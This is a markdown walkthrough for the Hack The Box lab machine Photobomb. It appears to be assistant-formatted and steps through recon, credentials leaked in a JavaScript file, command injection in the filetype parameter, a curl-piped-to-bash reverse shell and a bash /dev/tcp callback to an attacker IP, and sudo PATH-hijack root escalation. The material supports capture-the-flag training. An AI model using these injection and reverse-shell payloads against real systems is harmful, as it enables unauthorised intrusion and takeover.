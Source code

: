 Here's your clean, organized, and markdown-formatted command and exploitation reference for **HTB: Photobomb** 🎞️💣 – perfectly structured for HTB prep or quick review:

---

# 📸 HTB: Photobomb – Command & Exploitation Guide

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.182
nmap -p 22,80 -sCV 10.10.11.182
```

### Host Mapping
```bash
echo "10.10.11.182 photobomb.htb" | sudo tee -a /etc/hosts
```

### Fuzz for Subdomains
```bash
ffuf -u http://10.10.11.182 -H "Host: FUZZ.photobomb.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

---

## 🌐 [Website Enumeration](HTTP)

### Locate JavaScript with Creds
Check source for:
```html
<script src="/static/photobomb.js"></script>
```

Look for:
```js
// Jameson: pre-populate creds for tech support...
'href','http://pH0t0:b0Mb!@photobomb.htb/printer'
```

### Feroxbuster Directory Scan
```bash
feroxbuster -u http://photobomb.htb -x php,html,txt \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

---

## ⚙️ Authenticated Image Panel

### Example POST Request for Image Processing
```http
POST /printer HTTP/1.1
Authorization: Basic cEgwdD...==  # Base64 of pH0t0:b0Mb!
Content-Type: application/x-www-form-urlencoded

photo=wolfgang.jpg&filetype=png&dimensions=1000x1000
```

---

## 💣 Command Injection via filetype Parameter

### POC: Confirm Injection
```bash
filetype=png;sleep+5
```

### Reverse Shell Payload
Start a listener:
```bash
nc -lnvp 443
```

Host this on your webserver as `shell.sh`:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

Send payload:
```http
filetype=png;curl+10.10.14.6/shell.sh|bash
```

---

## 🧑‍💻 Shell as `wizard`

### Stabilize Shell
```bash
script /dev/null -c bash
# CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🚀 Privilege Escalation to Root

### Check Sudo Rights
```bash
sudo -l
# Output:
# (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

### Review `/opt/cleanup.sh`
```bash
cat /opt/cleanup.sh
```

Notable line:
```bash
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

---

## 🔓 Privesc Option 1 – PATH Hijack

### Create Fake `find` in Current Directory
```bash
echo -e '#!/bin/bash\nbash' > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🔓 Privesc Option 2 – Bash Builtin `[`

### `.bashrc` disables builtin:
```bash
enable -n [  # disables Bash builtin [
```

### Exploit Disabled `[`
```bash
echo -e '#!/bin/bash\nbash' > [
chmod +x [
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🏁 Flags

### User Flag
```bash
cat /home/wizard/user.txt
```

### Root Flag
```bash
cat /root/root.txt
```